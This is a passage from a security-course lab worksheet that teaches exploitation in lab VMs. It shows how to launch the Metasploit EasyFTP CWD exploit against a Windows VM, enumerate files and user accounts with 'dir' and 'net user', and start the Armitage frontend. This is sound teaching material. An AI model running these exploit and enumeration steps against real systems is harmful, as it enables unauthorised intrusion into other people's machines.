 > Note: Note that the majority of exploits (such as this one) do not support checking whether the target is vulnerable, so you will have to launch the attack before you know for sure.

==action: Launch the attack:==

```bash
msf (windows/ftp/easyftp_cwd_fixret) > exploit
```

Hey presto! You have admin access to the remote system!

> Tip: if it did not work, try restarting the Windows VM. Also use 'show options' before launching the exploit, to check the required settings and ensure the IP addresses are correct.

Again, ==action: for now run these commands to confirm you have access to the target:==

==action: List the files and directories in C:\\==

```bash
dir C:\\
```

==action: List all the user accounts on the machine==

```bash
net user
```

Later we will cover all the exciting things you (or an attacker) can do with this new found power.

> Note: Once you have exploited this service, then you will need to restart the Windows VM before your next attack, since the vulnerable service will no longer be running.

### Armitage and automated hacking[^4] {#armitage-and-automated-hacking}

Armitage is a FOSS (free and open source software) frontend for MSF, which provides a graphical interface and includes some automation features.

If you have restarted or reverted your VM, ==action: first run:==

```bash
sudo msfdb reinit
```

```bash
sudo service postgresql start
```

==action: Start Armitage by running:==

```bash
armitage &
```

==action: Leave the options as they are and click "Connect".==

If prompted, allow Armitage to start the Metasploit RPC server (click "Yes").

> Note: *It may take a while for Armitage to start.*

Armitage may prompt for your own attack computer IP address. ==action: Enter your Kali VM's IP address (other than 127.0.0.1), and click OK.==


[^1]:  There has been some discussion within the Debian community about whether the latest version of Metasploit has a “free” license, but the framework itself seems to be licensed using a BSD-like license.
[^2]:  If you get an error saying “postgresql selected, no connection”, try running msfdb delete followed by msfdb init.
[^3]:  If you have already found the Windows flag, you can skip this section.
[^4]:  If you have already found the Windows flag, you can skip the step-by-step instructions to hack into the Windows machine. Instead, you should use Armitage to break into the Linux machine and find the flag.
[vm_launch_icon]: {{ site.baseurl }}/assets/images/common/vm_launch_icon.png
[armitage_set_local_ip_address]: {{ site.baseurl }}/assets/images/introducing_attacks/6_exploitation/armitage_set_local_ip_address.png
[metasploit_launch_slide]: {{ site.baseurl }}/assets/images/introducing_attacks/6_exploitation/metasploit_launch_slide.png
[armitage_compromised]: {{ site.baseurl }}/assets/images/introducing_attacks/6_exploitation/armitage_compromised.png
[armitage_attack_menu_easyftp]: {{ site.baseurl }}/assets/images/introducing_attacks/6_exploitation/armitage_attack_menu_easyftp.png